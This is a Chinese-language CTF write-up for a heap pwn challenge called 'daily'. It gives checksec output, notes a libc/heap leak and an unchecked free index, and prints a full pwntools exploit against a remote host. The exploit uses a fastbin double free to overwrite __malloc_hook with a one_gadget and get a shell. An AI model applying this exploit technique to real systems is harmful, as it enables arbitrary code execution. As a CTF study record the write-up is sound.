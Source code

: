 # daily
这种题之前没见过
一开始思路错了...还以为是`house of spirite`...
幸亏一边写exp一遍想...发现`double free`更快...
也比较简单幸亏手速够快拿了个2血
## analysis
checksec
```python
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
* 没开`pie`感觉自己有被迫害恐惧症...每次没开`pie`都没注意都以为题目开了`pie`做到一半才想起来
* 存在show,没有末尾加截断可以泄露libc,heap
* free idx没有检查可以free任意地址上的指针.

## 思路
* 泄露libc,heap
* heap上留指向某chunk的指针
* double free
## exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice:",str(c))
def add(size,c='A'):
	cmd(2)
	p.sendlineafter("ily:",str(size))
	p.sendafter("daily\n",str(c))
def show():
	cmd(1)
def free(idx):
	cmd(4)
	p.sendlineafter("ily:",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("ily:",str(idx))
	p.sendafter("daily\n",str(c))
context.log_level='debug'
#p=process('./p2')
p=remote("39.106.224.151",58512)
add(0x88,"A")#0
add(0x18,"B")#1
free(0)
add(0x88,"A")#0
show()
p.readuntil("0 : ")
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd1b41-0x00007ffff7a0d000)

add(0x18,"A")#2
free(1)
free(2)
add(0x18,"A")#1
show()
p.readuntil("1 : ")
heap=u64(p.readuntil("=")[:-1].ljust(8,'\x00'))-0x41

add(0x18,p64(0x68)+p64(heap+0xd0+0x10))#2
add(0x68,"A")#3
add(0x68,'A')#4
free(3)
free(4)
idx=(heap+0xa0-0x0602060)//16
free(idx)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
libc.address=base
add(0x68,p64(libc.symbols['__malloc_hook']-35))#3
add(0x68)#4
add(0x68)#5
one=0xf02a4
add(0x68,'\x00'*19+p64(one+base))
free(3)
free(5)
log.warning(hex(base))
log.warning(hex(heap))
#gdb.attach(p,'b *0x000000000400C16')

p.interactive()
```